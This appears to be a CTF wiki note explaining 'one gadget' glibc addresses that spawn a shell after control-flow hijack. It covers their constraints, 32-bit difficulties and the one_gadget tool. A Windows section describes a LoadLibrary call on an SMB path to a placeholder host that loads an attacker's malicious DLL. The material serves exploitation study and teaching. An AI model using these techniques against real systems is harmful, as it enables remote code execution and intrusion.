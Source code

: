 # One Gadget (also "bespoke gadget")

_First time heard about this in a [video of Murmus](https://www.youtube.com/watch?v=kEqOvWmzu6Y)._

Sometimes you can get control over EIP/RIP but you don't control the argument passed to the function you're calling. This is for example the case when you overwrite a .got.plt entry or you can overwrite some function pointer on the stack but you don't control the arguments passed to that function. DragonSector discovered that there are some addresses in glibc that you can call without explicitely having to prep a "/bin/sh" string that will give you a shell (so exec*() is called).

There might be other conditions required to be able to get a shell (certain value on the stack to be NULL/0x00000000, ...) apart from the basic conditions:
* You need to know the libc base address (otherwise you can't call your function, right?)
* You need to know which version of libc (hopefully they gave you a libc binary with your challenge)
* You get stdout output.

David942j also discusses the problems with one-gadgets for 32-bit systems. Since x86 uses the stack for function parameters and not registers like x64 it is more difficult to find the constraints for a 32-bit rop gadget (one_gadget uses symbolic execution to resolve constraints). Accessing the data segment in x64 is done by rip+offset which is very straightforward. Accessing the data segment in x86 is done by using 'a' register as base address to the rw-p segment of libc in memory. Sadly, some registers are callee safe (their value is saved (pushed) on the stack and popped back by the callee) which makes it impossible (not sure if hard to do or impossible) to use. Luckily, esi is not callee save and you can write the base address of the rw-p segment in it before calling the one-gadget. It of course limits the number of usable one-gadgets because you can only use those that use an non-callee-safe register.

When the one_gadget reports that the value has to be NULL, it actually means that the value has to acceptible for the argument it is pretending to be. For example if some place on the stack represents the second argument of execve then the argument is interpreted as a pointer to a list of pointers. As long as you have a value on that place that can be interpreted as a valid pointer and once dereferenced you get a list of valid pointers then all is OK. ([Murmus CTF video](https://www.youtube.com/watch?v=Khiin2_l0GQ))

* Source: [dragons_ctf.pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)
* Source: [Project One Gadget in glibc](https://david942j.blogspot.be/2017/02/project-one-gadget-in-glibc.html)
* Source: [One gadget in Ubuntu 16.04](https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/)

## Gadgets

A premade list: [https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/](https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/)

Run [one_gadget](https://github.com/david942j/one_gadget) on your libc.

### Windows One Gadget

system() on Windows is implemented in MSVCRT.dll. However, this DLL is not always loaded. If it is loaded then you can get your one gadget if it's not loaded you can abuse LoadLibrary("\\\\x.x.x.x\yourSpecialDll.dll") to fetch a DLL over SMB. You just need to setup an open remote SMB server that serves your mallicious DLL. In the DLL put your code in DllMain that is automatically called when loading a DLL.

* Source: [dragons_ctf.pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)
